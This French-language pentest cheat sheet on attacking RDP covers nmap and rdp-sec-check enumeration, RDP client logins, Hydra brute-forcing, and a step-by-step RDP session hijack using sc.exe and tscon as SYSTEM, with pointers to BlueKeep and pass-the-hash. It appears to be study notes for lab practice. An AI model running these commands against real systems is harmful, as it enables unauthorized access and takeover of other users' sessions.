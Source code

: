 ```yaml
---
public: true 
#Tags: tag1, tag2
---
```

Port : 3389/tcp

## Enumeration

### Nmap

```shell-session
nmap -sV -sC $TARGET_IP -p3389 --script rdp*

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-enum-encryption: 
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
| rdp-ntlm-info: 
|   Target_Name: ILF-SQL-01
|   NetBIOS_Domain_Name: ILF-SQL-01
|   NetBIOS_Computer_Name: ILF-SQL-01
|   DNS_Domain_Name: ILF-SQL-01
|   DNS_Computer_Name: ILF-SQL-01
|   Product_Version: 10.0.17763
|_  System_Time: 2021-11-06T13:46:00+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Outil permettant d'identifier les paramètres de sécurité d'un serveur RDP sans s'authentifier
https://github.com/CiscoCXSecurity/rdp-sec-check

```
$ sudo cpan
cpan[1]> install Encoding::BER
```

### RDP Security Check

```shell-session
$ git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
$ ./rdp-sec-check.pl 10.129.201.248
[+] Scanning 1 hosts

Target:    10.129.201.248
IP:        10.129.201.248
Port:      3389

[+] Checking supported protocols

[-] Checking if RDP Security (PROTOCOL_RDP) is supported...Not supported - HYBRID_REQUIRED_BY_SERVER
[-] Checking if TLS Security (PROTOCOL_SSL) is supported...Not supported - HYBRID_REQUIRED_BY_SERVER
[-] Checking if CredSSP Security (PROTOCOL_HYBRID) is supported [uses NLA]...Supported

[+] Checking RDP Security Layer

[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_NONE...Not supported
[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_40BIT...Not supported
[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_128BIT...Not supported
[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_56BIT...Not supported
[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_FIPS...Not supported

[+] Summary of protocol support

[-] 10.129.201.248:3389 supports PROTOCOL_SSL   : FALSE
[-] 10.129.201.248:3389 supports PROTOCOL_HYBRID: TRUE
[-] 10.129.201.248:3389 supports PROTOCOL_RDP   : FALSE

[+] Summary of RDP encryption support

[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_NONE   : FALSE
[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_40BIT  : FALSE
[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_128BIT : FALSE
[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_56BIT  : FALSE
[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_FIPS   : FALSE

[+] Summary of security issues


rdp-sec-check v0.9-beta completed at Sun Nov  7 16:50:33 2021
```

## Connexion RDP depuis linux

Clients : `xfreerdp`, `rdesktop`, ou `Remmina`

 ```shell-session

xfreerdp /u:$AD_USER /p:$AD_PASSWORD /v:$TARGET_IP

rdesktop -u $AD_USER -p $AD_PASSWORD $TARGET_IP

```

## Attaques / Exploitations

### Exploits

- Bluekeep (fix en 2019)
 
### Brute force RDP avec Hydra
 ```
hydra -L user.list -P password.list rdp://$TARGET_IP
```

### RDP Session Hijacking

Objectif : basculer sur une session RDP d'une autre session RDP (sans saisie de mot de passe)
Prérequis : être administrateur local (pour pouvoir devenir SYSTEM)

```
# On récupère sa session active et celle que l'on souhaite hijacker
query user
 USERNAME              SESSIONNAME       ID  STATE   IDLE TIME  LOGON TIME
>attacker              rdp-tcp#1          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#2          2  Active          *  8/25/2021 1:28 AM

# Creation d'un service qui lancera TSCON.EXE en tant que SYSTEM
## tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#1"

# Lancement du service
net start sessionhijack
```

### RDP Pass the Hash

xfreerdp peut faire du PtH. Il est toutefois nécessaire de désactiver un mécanisme de sécurité via la base de registre.
Voir : [[Pass The Hash (PtH)]]
